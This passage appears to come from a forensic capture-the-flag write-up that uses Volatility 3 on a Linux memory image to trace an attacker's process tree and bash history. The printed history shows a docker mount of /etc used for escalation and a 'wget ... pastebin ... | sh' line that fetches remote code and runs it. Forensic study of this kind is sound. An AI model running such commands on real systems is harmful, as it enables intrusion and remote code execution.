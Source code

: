 ```log {22} title="linux.pstree.PsTree"
Volatility 3 Framework 2.25.0

OFFSET (V)	PID	TID	PPID	COMM

0x9b33801eb000	1	1	0	systemd
* 0x9b338844c800	232	232	1	systemd-journal
* 0x9b33900f6000	254	254	1	systemd-udevd
* 0x9b339020e000	289	289	1	systemd-timesyn
* 0x9b3383729800	295	295	1	VGAuthService
* 0x9b3383728000	296	296	1	vmtoolsd
* 0x9b33837a6000	350	350	1	cron
* 0x9b338372b000	351	351	1	dbus-daemon
* 0x9b3388449800	354	354	1	rsyslogd
* 0x9b33837d0000	355	355	1	systemd-logind
* 0x9b3386eec800	558	558	1	agetty
* 0x9b3386ee8000	559	559	1	containerd
* 0x9b3386ee9800	560	560	1	sshd
** 0x9b3383224800	13585	13585	560	sshd
*** 0x9b3383370000	13607	13607	13585	sshd
**** 0x9b338337e000	13608	13608	13607	bash
***** 0x9b33900a4800	20703	20703	13608	su
****** 0x9b3382a5b000	22714	22714	20703	bash
** 0x9b3281326000	63454	63454	560	sshd
*** 0x9b329251e000	63460	63460	63454	sshd
**** 0x9b32924a6000	63461	63461	63460	bash
***** 0x9b3390208000	63483	63483	63461	sudo
****** 0x9b3383044800	63500	63500	63483	insmod
* 0x9b3386eeb000	569	569	1	dockerd
* 0x9b3391663000	905	905	1	containerd-shim
** 0x9b338292e000	1095	1095	905	synapse_sequenc
[...]
```

**Answer:** `13608`

### Question 3
> After the initial information gathering, the attacker authenticated as a different user to escalate privileges. Identify and submit that user's credentials. (user:password)

First we gotta identify the authenticated user, checking `linux.bash.Bash` output show that the attacker ran `su jm`:

```log {13} wrap=false title="linux.bash.Bash"
Volatility 3 Framework 2.25.0

PID	Process	CommandTime	Command

13608	bash	2025-09-03 08:16:48.000000 UTC	id
13608	bash	2025-09-03 08:16:52.000000 UTC	 
13608	bash	2025-09-03 08:16:52.000000 UTC	cat /etc/os-release 
13608	bash	2025-09-03 08:16:58.000000 UTC	uname -a
13608	bash	2025-09-03 08:17:02.000000 UTC	ip a
13608	bash	2025-09-03 08:17:04.000000 UTC	0
13608	bash	2025-09-03 08:17:04.000000 UTC	ps aux
13608	bash	2025-09-03 08:17:25.000000 UTC	docker run -v /etc/:/mnt -it alpine
13608	bash	2025-09-03 08:18:11.000000 UTC	su jm
22714	bash	2025-09-03 08:18:15.000000 UTC	poweroff
22714	bash	2025-09-03 08:18:31.000000 UTC	id
22714	bash	2025-09-03 08:18:40.000000 UTC	wget -q -O- https://pastebin.com/raw/hPEBtinX|sh
22714	bash	2025-09-03 08:19:48.000000 UTC	nano /etc/sysctl.conf 
22714	bash	2025-09-03 08:20:04.000000 UTC	sysctl --system
22714	bash	2025-09-03 08:20:15.000000 UTC	iptables -A FORWARD -i ens224 -o ens192 -j ACCEPT
22714	bash	2025-09-03 08:20:15.000000 UTC	iptables -A FORWARD -i ens192 -o ens224 -m state --state ESTABLISHED,RELATED -j ACCEPT
```